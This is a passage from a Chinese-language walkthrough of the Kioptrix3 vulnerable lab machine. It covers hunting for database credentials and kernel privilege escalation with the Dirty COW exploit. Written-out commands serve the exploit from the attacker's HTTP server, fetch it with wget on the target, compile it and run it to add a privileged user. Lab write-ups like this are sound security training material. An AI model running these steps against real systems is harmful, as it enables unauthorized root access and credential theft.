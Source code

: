 选出合适的，再次进行利用：

![image-20240127170238380](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712032.png)

这里参考了这位师傅的解答：https://zhuanlan.zhihu.com/p/654675099

这里我不是很清楚这个URI参数设置是干啥的，尝试去除：

![image-20240127171134660](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712033.png)

也可以正常利用，回头有时间再去学习一下！

## 提权

查找一下相关文件，看看有无我们需要的：

![image-20240127134710816](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712034.png)

找到了数据库的用户名密码：

![image-20240127134729841](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712035.png)

打开看一下，可以找到我们之前找到的：

![image-20240127135351182](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712036.png)



## 内核提权

查看一下内核版本和信息：

```shell
uname -a
# Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
lsb_release -a
# No LSB modules are available.
# Distributor ID: Ubuntu
# Description:    Ubuntu 8.04.3 LTS
# Release:        8.04
# Codename:       hardy
cat /proc/version
# Linux version 2.6.24-24-server (buildd@palmer) (gcc version 4.2.4 (Ubuntu 4.2.4-1ubuntu4)) #1 SMP Tue Jul 7 20:21:17 UTC 2009
```

查到内核的版本了，搜索一下相关漏洞：

![image-20240127140832046](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401271712037.png)

尝试一下`Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                 | linux/local/40839.c`这个漏洞：

在本地打开一下python的简易http服务：

```shell
# local
python3 -m http.server 1234
# remote
wget http://192.168.244.133:1234/40839.c
gcc -pthread 40839.c -o 40839 -lcrypt
./40839 password
# 新用户密码，这里使用的是Mast3r，其实都行
```
